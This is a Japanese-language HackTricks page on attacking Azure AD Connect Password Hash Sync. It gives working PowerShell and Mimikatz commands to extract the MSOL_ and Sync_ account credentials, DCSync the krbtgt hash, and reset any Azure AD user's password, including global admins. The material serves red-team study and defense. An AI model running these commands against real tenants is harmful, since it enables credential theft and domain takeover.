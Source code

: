 # Az - PHS - Password Hash Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## 基本情報

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **パスワードハッシュの同期**は、ハイブリッドアイデンティティを実現するために使用されるサインイン方法の1つです。 **Azure AD Connect**は、オンプレミスのActive DirectoryインスタンスからクラウドベースのAzure ADインスタンスにユーザーのパスワードのハッシュのハッシュを同期します。

<figure><img src="../../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

これは、企業がオンプレミスのADをAzure ADと同期させるために使用する**最も一般的な方法**です。

すべての**ユーザー**と**パスワードハッシュのハッシュ**がオンプレミスからAzure ADに同期されます。ただし、**平文のパスワード**や**元の** **ハッシュ**はAzure ADに送信されません。\
さらに、**組み込み**のセキュリティグループ（ドメイン管理者など）は**Azure ADに同期されません**。

**ハッシュの同期**は**2分ごと**に行われます。ただし、デフォルトでは、**パスワードの有効期限**と**アカウントの有効期限**は**Azure ADに同期されません**。したがって、**オンプレミスのパスワードが期限切れ**（変更されていない）であるユーザーは、古いパスワードを使用して**Azureリソースにアクセスし続けることができます**。

オンプレミスのユーザーがAzureリソースにアクセスしようとすると、**認証はAzure ADで行われます**。

**PHS**は、**アイデンティティ保護**やAADドメインサービスなどの機能に必要です。

## ピボット

PHSが構成されると、いくつかの**特権アカウント**が自動的に**作成されます**：

* アカウント**`MSOL_<installationID>`**は、オンプレミスADに自動的に作成されます。このアカウントには**ディレクトリ同期アカウント**の役割が与えられます（[ドキュメント](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)を参照）これは、オンプレミスADで**レプリケーション（DCSync）権限**を持つことを意味します。
* アカウント**`Sync_<name of on-prem ADConnect Server>_installationID`**がAzure ADに作成されます。このアカウントは、Azure AD内の**任意のユーザー**（同期されたユーザーまたはクラウド専用ユーザー）のパスワードを**リセット**できます。

これらの2つの特権アカウントのパスワードは、**Azure AD ConnectがインストールされているサーバーのSQLサーバー**に**保存されています**。管理者は、これらの特権ユーザーのパスワードを平文で抽出できます。\
データベースは`C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`にあります。

テーブルの1つから構成を抽出することが可能で、そのうちの1つは暗号化されています：

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

**暗号化された構成**は**DPAPI**で暗号化されており、オンプレミスADの**`MSOL_*`**ユーザーの**パスワード**とAzureADの**Sync\_\***のパスワードを含んでいます。したがって、これらを侵害することでADおよびAzureADへの権限昇格が可能です。

これらの資格情報がどのように保存され、復号化されるかの[完全な概要はこのトークで見つけることができます](https://www.youtube.com/watch?v=JEIR5oGCwdg)。

### **Azure AD Connectサーバーの特定**

**Azure AD Connectがインストールされているサーバー**がドメインに参加している場合（ドキュメントで推奨されている）、次のコマンドで見つけることができます：
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### MSOL\_\*の悪用
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
これらの資格情報を取得するために、[**adconnectdump**](https://github.com/dirkjanm/adconnectdump)を使用することもできます。
{% endhint %}

### Sync\_\*の悪用

**`Sync_*`** アカウントを侵害することで、任意のユーザー（グローバル管理者を含む）の**パスワードをリセット**することが可能です。
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
クラウドユーザーの**パスワードのみを変更する**ことも可能です（予期しない場合でも）。
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
このユーザーのパスワードをダンプすることも可能です。

{% hint style="danger" %}
別のオプションは、**サービスプリンシパルに特権のある権限を割り当てる**ことで、**Sync**ユーザーが**権限**を持っているため、その**サービスプリンシパルにアクセスする**ことで特権昇格を行うことです。
{% endhint %}

### シームレスSSO

PHSを使用してシームレスSSOを利用することが可能で、他の悪用に対して脆弱です。詳細は以下を確認してください：

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## 参考文献

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
